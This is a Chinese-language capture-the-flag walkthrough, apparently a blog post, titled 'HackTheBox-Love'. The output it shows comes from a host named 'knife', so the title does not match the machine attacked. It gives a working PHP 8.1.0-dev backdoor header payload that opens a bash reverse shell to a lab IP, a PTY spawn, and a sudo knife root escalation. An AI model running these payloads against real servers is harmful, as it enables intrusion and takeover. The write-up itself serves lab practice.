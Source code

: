 # HackTheBox-Love

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.211.145  
  
Nmap scan report for 10.129.211.145  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT   STATE    SERVICE VERSION  
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
53/tcp filtered domain  
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds  
```  
开启了`22`端口和`80`端口，访问`80`端口  
在其返回包看到`PHP`版本信息  
```http  
HTTP/1.1 200 OK  
Date: Sat, 13 Apr 2024 10:07:00 GMT  
Server: Apache/2.4.41 (Ubuntu)  
X-Powered-By: PHP/8.1.0-dev  
Vary: Accept-Encoding  
Content-Length: 5815  
Connection: close  
Content-Type: text/html; charset=UTF-8  
```  
此版本是存在后门，可以直接进行`RCE`  
直接反弹一个`shell`到本地  
`User-Agentt:zerodiumsystem(&#34;/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39;&#34;);`  
获得`user.txt`的`flag`  
```bash  
james@knife:~$ cat user.txt  
cat user.txt  
8f76f62dae4f23ad7c61094fff67a86d  
```  
继续进行提权  
`sudo -l`进行查看`james`用户的权限  
```bash  
Matching Defaults entries for james on knife:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User james may run the following commands on knife:  
    (root) NOPASSWD: /usr/bin/knife  
```  
可以无需密码以`root`权限执行`/usr/bin/knife`命令  
利用`python`获取一个交互式`shell`  
`python3 -c &#34;__import__(&#39;pty&#39;).spawn(&#39;/bin/bash&#39;)&#34;`  
利用`knife`进行提权  
`sudo /usr/bin/knife exec -E &#39;exec &#34;/bin/sh&#34;&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131823505.png)
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-love/  


